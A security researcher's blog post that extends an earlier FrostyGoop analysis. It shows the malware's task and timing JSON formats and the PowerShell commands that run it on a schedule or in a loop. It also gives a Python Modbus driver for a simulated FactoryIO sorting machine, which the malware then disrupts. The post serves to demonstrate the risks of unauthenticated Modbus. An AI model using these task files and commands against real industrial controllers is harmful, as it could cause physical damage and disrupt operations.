



Taking FrostyGoop to the next level and attacking a simulated sorting machine.

## Introduction

While analysing the FrostyGoop ICS malware in my previous [blogpost](https://www.remyjaspers.com/blog/frostygoop) I had way too much fun with analyzing the Modbus TCP protocol and its security (or lack thereof). Not being able to use the timing and automating bit of the malware haunted me and I wanted to fully understand it. Shoutout to Nozomi for their awesome [writeup]((https://www.nozominetworks.com/blog/protecting-against-frostygoop-bustleberm-malware)) of the malware. They were able to reverse engineer the task_test.json file which I was still figuring out. 

Armed with this knowledge, I wanted to take this malware and experimentation with unauthenticated Modbus to the next level. I experimented some more with the timing commands until I got them to work. 

After I show some more details on how to run the commands to time execution of FrostyGoop, I will build a small lab to have something more interesting to look at than the ModRssim2 table of register values :yawning_face:.  After [digging](https://rodrigocantera.com/en/modbus-tcp-packet-injection-with-scapy/) around, I found this awesome [industrial conveyor belt color sorter ](https://community.factoryio.com/t/sort-by-color-conveyor-system/222) scenario in a ICS simulation software called [FactoryIO](https://factoryio.com/). FactoryIO allows to interact with it using software from many ICS vendors (Siemens, Rockwell etc. ) This looks like the perfect candidate for a more realistic attack scenario! Before we attack this sorting station however, let's have a brief look at how FrostyGoop's timed execution works.



## FrostyGoop Timing

As the folks from Nozomi showed, FrostyGoop can be run with a tasklist JSON file that lays out the steps to automatically attack Modbus appliances. This greatly helps in foregoing the repetitive task of providing command line arguments for each Modbus message to be sent. This file assumes the following format:

```JSON
{
    "Iplist" : ["127.0.0.1"],
    "Tasks" : [
        {
            "Code" : 16,
            "Address" : 0,
            "Value" : 8000,
            "Count" : 3
        }
    ]
   
}
```

After playing around with the sample for a bit longer I found out how to use the *StartTime*, *PeriodTime*, *WaitTime* and *IntervalTime* variables. We can provide these in a *separate* JSON file so FrostyGoop's execution can be delayed, repeated, or scheduled. Unfortunately I was only able to set the StartTime in hours, but I found no way to make it work with a UTC date/time string. This "cycle info" JSON file has the following format:

```JSON
{
 "StartTime" : "13:20:00",
 "IntervalTime" :  "1ms",
 "PeriodTime" : "1ms",
 "WorkTime" : "20s"
} 

```

| Command | Explanation |
|-|-|
|StartTime | UTC time string to schedule execution (HH:MM:SS)|
|IntervalTime | Time between executions |
|PeriodTime | Not sure about this one|
| WorkTime | Length of time for the malware to repeat execution (20 seconds)|

To execute the malware with the timing info, the following command can be used:

```Powershell
.\mb.exe -cycle .\cycle.json -input-task .\task_test.json
```

You can also just execute this malware in a Powershell loop, but this provides less flexibility:

```Powershell
While (1) { ./mb.exe -input-task ./task_test.json; }
```
## Driving the sorting station

The project files I found on the FactoryIO community were great but only provided Rockwell PLC driver code for the project and a proprietary ControlIO driver. Neither of them suited my purposes very well as I don't want to learn an entire software stack just to prove a point :grinning_face: . So I decided to cook something up myself. 

Before we can interact with FactoryIO, we have to configure it as a Modbus TCP/IP server, with the following settings. The other settings are left to their defaults, but it is important to set the Slave ID to 254 (because FrostyGoop for some reason sets this as the default?). Other settings are left to their defaults:


 
FactoryIO shows a nice overview of all the registers that can be read and/or written to. By connecting the various sensors and actuators to the right registers, we are able to send Modbus commands to drive them. I configured the sensors and actuators as follows:



I decided to just write a small driver in Python using the [pyModbus](https://pypi.org/project/pymodbus/) library. This code is probably devoid of any decent PLC programming practices (I have zero experience with that stuff). Regardless, it works for our purposes. It reads the Modbus registers that store the sensor (vision, laser) values and drives the actuators (load pushers, conveyor belt etc.) based on those values, and sorts the conveyed parts in their respective buckets. 

```Python
from pymodbus.client import ModbusTcpClient
from pymodbus.exceptions import ModbusException
import time

SLAVE = 254

c = ModbusTcpClient('127.0.0.1')   # Create client object
c.connect()                        # connect to device, reconnect automatically

# Reset 
c.write_coil(0, 1, SLAVE); # emitter start
c.write_coil(1, 0, SLAVE); # load pusher reset

c.write_coil(2, 0, SLAVE); # pusher 1 reset
c.write_coil(3, 0, SLAVE); # pusher 2 reset
c.write_coil(4, 0, SLAVE); # pusher 3 reset

c.write_register(7, 0, SLAVE); #reset belt speed
c.write_register(14, 0, SLAVE); # conveyor belt off

while c.connected:

        part_ready = c.read_discrete_inputs(0, 1, SLAVE).bits[0];
        part_pres_1 = c.read_discrete_inputs(1, 1, SLAVE).bits[0];
        part_pres_2 = c.read_discrete_inputs(2, 1, SLAVE).bits[0];
        part_pres_3 = c.read_discrete_inputs(3, 1, SLAVE).bits[0];
        
        load_pusher_adv = c.read_discrete_inputs(4, 1, SLAVE).bits[0];
        load_pusher_ret = c.read_discrete_inputs(5, 1, SLAVE).bits[0];

        metal_bin = c.read_discrete_inputs(5, 1, SLAVE).bits[0];
        blue_bin = c.read_discrete_inputs(6, 1, SLAVE).bits[0];
        green_bin = c.read_discrete_inputs(7, 1, SLAVE).bits[0]
        reject_bin = c.read_discrete_inputs(8, 1, SLAVE).bits[0];

        metal_detect = c.read_input_registers(2, 1, SLAVE).registers[0];
        blue_detect = c.read_input_registers(1, 1, SLAVE).registers[0];
        green_detect = c.read_input_registers(0, 1, SLAVE).registers[0];
        
        metal_retract = c.read_input_registers(5, 1, SLAVE).registers[0];
        blue_retract = c.read_input_registers(4, 1, SLAVE).registers[0];
        green_retract = c.read_input_registers(3, 1, SLAVE).registers[0];

        belt_speed = c.read_input_registers(7, 1, SLAVE).registers[0];
        conv_off = c.read_discrete_inputs(14, 1, SLAVE).bits[0];
        
        if conv_off:
                c.write_register(7, 0, SLAVE); # Reset belt speed
        else:
                c.write_register(7, belt_speed, SLAVE); # Set belt speed based on knob
                
        if part_pres_1:
                c.write_coil(0, 0, SLAVE); # Emitter disable
        else:
                c.write_coil(0, 1, SLAVE); # Emitter enable

        if not part_ready and load_pusher_ret:
                c.write_coil(1, 1, SLAVE); # Load pusher adv
       
        if load_pusher_adv:
                c.write_coil(1, 0, SLAVE); # Load pusher retract
    
        if metal_detect == 9 and part_pres_3:
                c.write_register(2, 0x7FFF, SLAVE); # Pusher metal adv
        else:
                c.write_register(2, 0x8000, SLAVE); # Pusher metal retract
        
        if blue_detect == 2 and part_pres_2:
                c.write_register(1, 0x7FFF, SLAVE); # Pusher blue adv
        else:
                c.write_register(1, 0x8000, SLAVE); # Pusher blue retract
        
        if green_detect == 5 and part_pres_1:
                c.write_register(0, 0x7FFF, SLAVE); # Pusher green adv
        else:
                c.write_register(0, 0x8000, SLAVE); # Pusher green retract
        
        time.sleep(0.1);
```

Under normal operation, the color sorter works as intended, putting the metal, blue and green lids, and the small paper boxes in their respective bucket (sped up 4x for your viewing pleasure). Warning: please have some patience, the GIFs below may take a while to load. If you don't see anything yet, please refresh the page. 


Let's attack this sorting machine and see what happens. 

## Attacking the sorting station with FrostyGoop

Using the aforementioned task and cycle info JSON files, we run FrostyGoop to target the sorting machine. Twenty seconds of sending crafted Modbus messages is all it takes to throw the sorting machine into disarray:


## Conclusion

This hopefully reinforces the point that using unauthenticated Modbus TCP is a *bad* idea. Even rather unsophisticated malware like FrostyGoop can do real damage if deployed under the right circumstances. 

Thanks for reading until the end. If you have any questions or suggestions feel free to drop me a message on Linkedin or Xitter (@st0yky).